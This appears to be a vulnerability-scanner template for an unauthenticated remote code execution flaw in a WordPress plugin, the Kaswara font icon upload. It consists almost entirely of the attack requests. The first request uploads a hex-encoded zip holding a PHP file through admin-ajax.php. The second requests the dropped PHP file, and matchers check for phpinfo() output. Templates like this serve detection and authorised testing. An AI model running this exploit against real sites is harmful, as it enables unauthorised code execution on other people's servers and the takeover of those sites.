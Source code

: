 - severity - critical
- tags - intrusive,unauth,fileupload,wpscan,cve,wordpress,wp-plugin,rce,cve2021,wp

## Requests

### Step - 1

```
POST /wp-admin/admin-ajax.php?action=uploadFontIcon HTTP/1.1
Host: {{Hostname}}
Content-Type: multipart/form-data; boundary=------------------------d3be34324392a708

--------------------------d3be34324392a708
Content-Disposition: form-data; name="fonticonzipfile"; filename="{{zip_file}}.zip"
Content-Type: application/octet-stream

{{hex_decode('504B03040A0000000000FA73F454B2333E07140000001400000006001C00')}}{{php_file}}{{hex_decode('555409000366CBD76267CBD76275780B000104F50100000414000000')}}{{php_cmd}}{{hex_decode('0A504B01021E030A00000000002978F454E49BC1591300000013000000060018000000000001000000A48100000000')}}{{php_file}}{{hex_decode('555405000366CBD76275780B000104F50100000414000000504B050600000000010001004C000000530000000000')}}
--------------------------d3be34324392a708
Content-Disposition: form-data; name="fontsetname"

{{zip_file}}
--------------------------d3be34324392a708
Content-Disposition: form-data; name="action"

uploadFontIcon
--------------------------d3be34324392a708--

```

### Step - 2

```
GET /wp-content/uploads/kaswara/fonts_icon/{{zip_file}}/{{php_file}} HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body_1
- words
  1. wp-content/uploads/kaswara/fonts_icon/{{zip_file}}/style.css

**Type - word**

- part - body_2
- words
  1. phpinfo()
